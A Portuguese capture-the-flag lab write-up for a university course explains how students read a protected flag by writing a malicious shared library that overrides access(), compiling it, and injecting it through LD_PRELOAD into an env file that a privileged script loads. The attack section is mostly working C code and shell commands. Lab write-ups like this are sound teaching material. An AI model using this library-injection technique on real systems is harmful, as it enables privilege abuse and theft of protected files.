

# CTF 2 - Semana 4

## Reconhecimento

Ao entrarmos no port 4006 do host ctf-fsi.fe.up.pt, usando o comando `nc ctf-fsi.fe.up.pt 4006` com o vpn da FEUP ativado, fizemos o ls -l para verificar o conteúdo da pasta onde estávamos.


Após analisar o conteúdo do admin_note.txt , usando o `cat admin_note.txt`, percebemos que existe uma vulnerabilidade que pode ser explorada na pasta `tmp`, usando um script que corre regularmente no servidor. Podemos aproveitar isso para dar load de uma livraria maliciosa que é executado automáticamente pelo servidor (pois só ele tem as permissões para tal). Na livraria maliciosa podemos dar override à uma das funções que se encontram no main.c (`(my_big_congrats() puts() acess() )` e executar o nosso código malicioso.


```
flag_reader,

I locked you out of the temp folders.
Told you before they are not to be used as permanent storage!
Hackers stole the flag by reading the files you left there!!!!!!
Finish your damn program ASAP!!!!!
Tired of waiting for you to lock them out for good, you lazy !@%#

- The Admin
```
*admin_notes.txt*

```
#!/bin/bash

if [ -f "/home/flag_reader/env" ]; then
    echo "Sourcing env"
    export $(/usr/bin/cat /home/flag_reader/env | /usr/bin/xargs)
    echo "" > /home/flag_reader/env
fi

printenv
exec /home/flag_reader/reader
```
*my_script.sh*

```
#include <stdio.h>
#include <unistd.h>

void my_big_congrats(){
    puts("TODO - Implement this in the near future!");
}

int main() {
    puts("I'm going to check if the flag exists!");

    if (access("/flags/flag.txt", F_OK) == 0) {
        puts("File exists!!");
        my_big_congrats();
    } else {
        puts("File doesn't exist!");
    }

    return 0;
}
```
*main.c*


## Ataque

Ao acedermos à pasta `tmp`, vamos criar um ficheiro access.c onde vamos escrever o nosso código malicioso, que será o seguinte:

```
#include <stdlib.h>
#include <stdio.h>
#include <unistd.h>
int access(const char *pathname, int mode){
    system("/usr/bin/cat /flags/flag.txt > /tmp/ll.txt");
    return 0;
}
```

Usando o seguinte comando, vamos escrever o código no ficheiro através do terminal:

```
echo '
#include <stdlib.h>
#include <stdio.h>
#include <unistd.h>
int access(const char *pathname, int mode){
    system("/usr/bin/cat /flags/flag.txt > /tmp/ll.txt");
    return 0;
} ' >> access.c
```

Podemos aproveitar para fazer `touch ll.txt` e `chmod 777 ll.txt` só para evitar problemas que possam surgir.

Agora vamos criar a tal livraria maliciosa:

```
gcc -fPIC -g -shared -o /tmp/access.so /tmp/access.c -lc
```

E por fim, vamos alterar o conteúdo do env no tmp , dado que na imagem anterior, podemos reparar que é uma referência a este env:

```
echo 'LD_PRELOAD=/tmp/access.so' >> env
```

Agora esperamos que o servidor execute o nosso código e podemos obter a nossa flag no ficheiro .txt que criamos.

Exemplo de demonstração:



